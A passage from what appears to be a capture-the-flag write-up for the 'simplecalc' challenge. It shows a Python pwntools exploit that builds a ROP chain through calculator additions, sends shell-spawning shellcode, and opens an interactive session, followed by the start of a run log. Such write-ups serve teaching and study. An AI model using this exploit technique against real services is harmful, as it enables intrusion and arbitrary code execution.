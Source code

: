 ```python

r.send("1\n")
print r.recv()
r.send("85\n")
print r.recv()
r.send("7077803\n")         # 85 + 7077803 = 0x6c0000 ; addr to store data to
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("12345\n")
print r.recv()
r.send("4607836\n")         # 12345 + 4607836 = 0x467f95: syscall; ret;
print r.recv()

add_align()

r.send("1\n")
print r.recv()
r.send("85\n")
print r.recv()
r.send("7077803\n")         # 85 + 7077803 = 0x6c0000 ; return to payload
print r.recv()

#__[end read ROP chain]__#


r.send("5\n");

print "Press ENTER to send shellcode"
raw_input()
r.send(asm(shellcraft.linux.sh() + "\n"))

r.interactive()

```

and here we see it in action.


    # ./sploit.py
    [+] Opening connection to simplecalc.bostonkey.party on port 5400: Done

        |#------------------------------------#|
        |         Something Calculator         |
        |#------------------------------------#|
